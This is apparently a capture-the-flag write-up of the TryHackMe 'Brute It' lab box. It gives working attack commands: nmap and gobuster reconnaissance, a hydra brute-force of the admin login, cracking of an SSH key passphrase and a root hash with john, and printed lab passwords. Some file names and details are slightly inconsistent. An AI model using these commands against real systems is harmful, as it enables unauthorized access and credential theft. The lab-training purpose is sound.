 ```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, brute, ssh, http, gobuster, john, crack,SUID]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Brute_It/0.png
    alt: Brute_It
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/1.png)

## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/2.png)

## /admin/source code
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/3.png)

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/4.png)

now we have:  
username = `admin`  
password = `xavier`  

We login!  
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/5.png)
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/6.png)

Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```

![](/assets/img/try%20hack%20me%20/Easy/Brute_It/7.png)


# privilege escalation

## sudo -l
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/8.png)

We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
